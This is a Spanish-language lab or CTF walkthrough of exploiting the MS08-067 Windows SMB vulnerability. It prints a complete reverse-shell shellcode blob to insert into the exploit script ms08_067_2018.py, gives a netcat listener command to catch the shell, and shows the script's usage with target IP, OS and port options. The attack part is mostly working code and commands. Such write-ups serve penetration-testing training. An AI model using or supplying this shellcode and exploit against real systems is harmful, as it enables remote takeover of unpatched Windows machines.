 <h3 style="text-align:center;" id="script">MODIFICACION DEL SCRIPT</h3><br>

Antes de hacer uso del exploit vamos a modificar el script `ms08_067_2018.py` con el shellcode para definir la reverse shell.

```python
shellcode=(
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x6f\x88\xb5\xee\x83\xee\xfc\xe2\xf4\x93\x60\x37\xee\x6f\x88"
"\xd5\x67\x8a\xb9\x75\x8a\xe4\xd8\x85\x65\x3d\x84\x3e\xbc\x7b"
"\x03\xc7\xc6\x60\x3f\xff\xc8\x5e\x77\x19\xd2\x0e\xf4\xb7\xc2"
"\x4f\x49\x7a\xe3\x6e\x4f\x57\x1c\x3d\xdf\x3e\xbc\x7f\x03\xff"
"\xd2\xe4\xc4\xa4\x96\x8c\xc0\xb4\x3f\x3e\x03\xec\xce\x6e\x5b"
"\x3e\xa7\x77\x6b\x8f\xa7\xe4\xbc\x3e\xef\xb9\xb9\x4a\x42\xae"
"\x47\xb8\xef\xa8\xb0\x55\x9b\x99\x8b\xc8\x16\x54\xf5\x91\x9b"
"\x8b\xd0\x3e\xb6\x4b\x89\x66\x88\xe4\x84\xfe\x65\x37\x94\xb4"
"\x3d\xe4\x8c\x3e\xef\xbf\x01\xf1\xca\x4b\xd3\xee\x8f\x36\xd2"
"\xe4\x11\x8f\xd7\xea\xb4\xe4\x9a\x5e\x63\x32\xe0\x86\xdc\x6f"
"\x88\xdd\x99\x1c\xba\xea\xba\x07\xc4\xc2\xc8\x68\x77\x60\x56"
"\xff\x89\xb5\xee\x46\x4c\xe1\xbe\x07\xa1\x35\x85\x6f\x77\x60"
"\xbe\x3f\xd8\xe5\xae\x3f\xc8\xe5\x86\x85\x87\x6a\x0e\x90\x5d"
"\x22\x84\x6a\xe0\xbf\xe4\x7f\x8d\xdd\xec\x6f\x8c\x67\x67\x89"
"\xe2\xa5\xb8\x38\xe0\x2c\x4b\x1b\xe9\x4a\x3b\xea\x48\xc1\xe2"
"\x90\xc6\xbd\x9b\x83\xe0\x45\x5b\xcd\xde\x4a\x3b\x07\xeb\xd8"
"\x8a\x6f\x01\x56\xb9\x38\xdf\x84\x18\x05\x9a\xec\xb8\x8d\x75"
"\xd3\x29\x2b\xac\x89\xef\x6e\x05\xf1\xca\x7f\x4e\xb5\xaa\x3b"
"\xd8\xe3\xb8\x39\xce\xe3\xa0\x39\xde\xe6\xb8\x07\xf1\x79\xd1"
"\xe9\x77\x60\x67\x8f\xc6\xe3\xa8\x90\xb8\xdd\xe6\xe8\x95\xd5"
"\x11\xba\x33\x55\xf3\x45\x82\xdd\x48\xfa\x35\x28\x11\xba\xb4"
"\xb3\x92\x65\x08\x4e\x0e\x1a\x8d\x0e\xa9\x7c\xfa\xda\x84\x6f"
"\xdb\x4a\x3b"
)
```
<br>
<h3 style="text-align:center;" id="revshell">OBTENCION DE LA REVERSE SHELL</h3><br>

1- Nos ponemos por escucha con nc y usando `rlwrap` para obtener una consola más interactiva.

```zsh
rlwrap nc -lvnp 1234 
```
<br>
2- Comprobamos el uso del script.

```
❯ python ms08_067_2018.py
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################


Usage: ms08_067_2018.py <target ip> <os #> <Port #>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
```